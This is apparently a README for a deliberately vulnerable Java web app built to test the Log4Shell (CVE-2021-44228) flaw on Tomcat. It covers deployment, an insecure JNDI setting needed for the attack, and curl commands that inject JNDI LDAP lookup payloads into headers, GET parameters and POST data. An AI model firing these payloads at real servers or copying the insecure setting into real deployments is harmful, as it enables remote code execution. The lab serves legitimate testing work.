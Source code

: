# Damn Vulnerable Log4j App

## Why this application?
We wanted a way to test the CVE-2021-44228 / log4shell vulnerability. https://github.com/christophetd/log4shell-vulnerable-app is great, and the docker packaging makes it quick and easy to deploy for testing. However, we wanted a Windows-compatible version that could be deployed on a server like Tomcat.

## Why are there two versions?
Excuse our ignorance as we are not from the Java world. There appears to be a schism that disrupted a lot of package namespaces. The [Tomcat 10 download page](https://tomcat.apache.org/download-10.cgi) even warned of this:

> Users of Tomcat 10 onwards should be aware that, as a result of the move from Java EE to Jakarta EE as part of the transfer of Java EE to the Eclipse Foundation, the primary package for all implemented APIs has changed from javax.* to jakarta.*. This will almost certainly require code changes to enable applications to migrate from Tomcat 9 and earlier to Tomcat 10 and later.

Use `damn-vulnerable-log4j-app-java17` if you are using the latest version of Java and Jakarta EE.

Use `damn-vulnerable-log4j-app-java8` if you are using Java 8 (1.8) and Java EE.

Compiled versions are available under the releases tab.

## How do I deploy it (for Java 17 / Tomcat 10)?
1. Install Tomcat 10 https://tomcat.apache.org/download-10.cgi. We tested with 10.0.14, but others may work.
2. Install a JDK/JRE.  We used JDK 17.0.1 from https://www.oracle.com/java/technologies/downloads/. Older versions require you to create an Oracle account.
3. Set your JAVA_HOME or JRE_HOME (this can be done in the Tomcat `bin\startup.bat` file via `set JAVA_HOME=C:\Program Files\Java\jdk_17.0.1`. You could also set it globally via `rundll32.exe sysdm.cpl,EditEnvironmentVariables`.
4. **IMPORTANT** for newer versions of Java (e.g., JDK versions greater than 6u211, 7u201, 8u191, and 11.0.1), you will have to configure the `com.sun.jndi.ldap.object.trustURLCodebase=true` for the attack to work. Yes, this would not be done in "production" environments, but we're making this POC more friendly for newer versions of Java. This insecure configuration is present in those older versions of Java, which is why the exploit works. The easiest way to set this variable is adding `set CATALINA_OPTS=-Dcom.sun.jndi.ldap.object.trustURLCodebase=true` to the `bin\startup.bat` file.
5. Copy the .war file into `bin\webapps` and start Tomcat with `bin\startup.bat`. Tomcat will automatically expand the archive and deploy the app to a folder based on the archive name (so log4j.war goes to http://localhost:8080/log4j).

## The exploit doesn't seem to work?
If you see the initial LDAP request, but not a secondary request to grab the exploit class, then you likely need to set `com.sun.jndi.ldap.object.trustURLCodebase=true`. See the note in step 4 above for more details.

## How do I deploy it (for Java 1.8 / Tomcat 9)?
1. Install Tomcat 9 https://tomcat.apache.org/download-90.cgi. We tested with 9.0.56, but others may work.
2. Install a JDK/JRE.  We used JDK 1.8.181 from https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html. Older versions require you to create an Oracle account.
3. Set your JAVA_HOME or JRE_HOME (this can be done in the Tomcat `bin\startup.bat` file via `set JAVA_HOME=C:\Program Files\Java\jdk_1.8.0_181`. You could also set it globally via `rundll32.exe sysdm.cpl,EditEnvironmentVariables`.
4. **IMPORTANT** for older versions of Java (e.g., JDK versions at 6u211, 7u201, 8u191, and 11.0.1 or below), the variable `com.sun.jndi.ldap.object.trustURLCodebase` is in an insecure state and allows the attack to work. Newer versions would require this to be changed (see step 4 above for example),
5. Copy the .war file into `bin\webapps` and start Tomcat with `bin\startup.bat`. Tomcat will automatically expand the archive and deploy the app to a folder based on the archive name (so log4j.war goes to http://localhost:8080/log4j)

## How do I exploit this?
We used https://github.com/alexandre-lavoie/python-log4rce as it's simple to use and doesn't have any complex requirements.

Simply clone the repo and launch `python3 log4rce.py --payload "cmd.exe /c calc.exe" manual` and you can start poppin' calcs.

There are three API endpoints where you can use payload (URLs work assuming you kept the log4j.war file name or didn't move the base path):

1) http://localhost:8080/log4j/api/vulnerable/user - This logs the 'User-Agent' HTTP header.  You can attack it with something like `curl -A '${jndi:ldap://127.0.0.1:1387/Exploit}' http://localhost:8080/log4j/api/demo/user`

2) http://localhost:8080/log4j/api/vulnerable/get - This logs the 'x' HTTP GET parameter.  You can attack it with something like `curl -G  --data-urlencode 'x=${jndi:ldap://127.0.0.1:1387/Exploit}' http://localhost:8080/log4j/api/vulnerable/get`

3) http://localhost:8080/log4j/api/vulnerable/post - This logs any www-form-urlencoded POST data.  You can attack it with something like `curl -d 'foo=${jndi:ldap://127.0.0.1:1387/Exploit}' -X POST http://localhost:8080/log4j/api/vulnerable/post`

One of the more popular POCs, https://github.com/pimps/JNDI-Exploit-Kit, does not work out of the box for Java 17 / Tomcat 10 as it targets older versions of Java. It would work though against the Java 1.8 / Tomcat 9 version of the app.
